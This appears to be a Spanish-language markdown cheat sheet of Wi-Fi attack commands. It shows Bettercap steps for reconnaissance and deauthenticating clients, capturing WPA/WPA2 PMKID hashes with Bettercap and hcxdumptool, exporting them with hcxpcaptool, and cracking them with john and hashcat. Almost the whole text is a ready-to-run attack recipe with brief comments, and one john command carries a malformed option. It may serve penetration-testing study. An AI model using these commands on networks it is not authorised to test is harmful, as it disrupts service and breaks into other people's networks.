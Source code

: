 # Ataques 

Tags: #Bettercap #Attack #WPA/WPA2 

##  Bettercap 

* [Bettercap](https://github.com/bettercap/bettercap)
* [How to use - Bettercap](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-networks-with-bettercap-0194422/)

```bash 
# Para descargar 'Bettercap' lo hacemos desde la url en 'releases' y lo colocamos en la carpeta /opt/ 

❯ ./bettercap -iface wlan0mon                        # Ingresar a la consola intercativa 
	❯ wifi.recon on                                 # Activamos el modo reconocimiento  
	❯ set wifi.show.sort clients desc               # Ordenar por clientes de modo descendiente 
	❯ set ticker.commands 'clear: wifi.show'        # Limpieza cada seg y que nos muestre las redes disponibles 
		❯ ticker on                                # Representa la info en forma de tablas 
	❯ wifi.recon.channel 1                          # Enfocarnos en el canal 1
	❯ wifi.deauth <BSSI>                            # Haremos un ataque de deatenticacion 
	❯ Ctrl + z                                      # Terminar la sesion 
		❯ kill %                                   # Matar el proceso en segundo plano                      
```


## Obtener los hashes de las redes 

```bash 
# Ataque con Bettercap 

❯ ./bettercap -iface wlan0mon                        # Ingresar a la consola intercativa 
	❯ wifi.recon on                                 # Activamos el modo reconocimiento
	❯ wifi.show                                     # Listamos las redes 
	❯ wifi.assoc all                                # Obtenemos los hashes de las redes listadas anteriores (RSN PMKID)
```

```bash 
# Obtenemos el hash de las redes 

❯ hcxdumptool -i wlan0mon -o <Captura> --enable_status=1
	# i = Tarjeta de red en modo monitor
	# o = Nombre del archivo de exportacion 
```

```bash 
# Nos crea un archivo con Hashes que despues debemos de crackear por fuerza bruta 

❯ hcxpcaptool -z <myHashes> <Captura>
	# z = Archivo donde nos exportara los hashes
	# La 'Captura' es de la herramienta anterior  
```

```bash 
❯ john --wordlist==diccionario.txt myHashes              # Crackeamos los hashes para obtener la passwd 
❯ hashcat -m 16800 -a 0 myHashes diccionario.txt         # Crackeamos los hashes para obtener la passwd 
```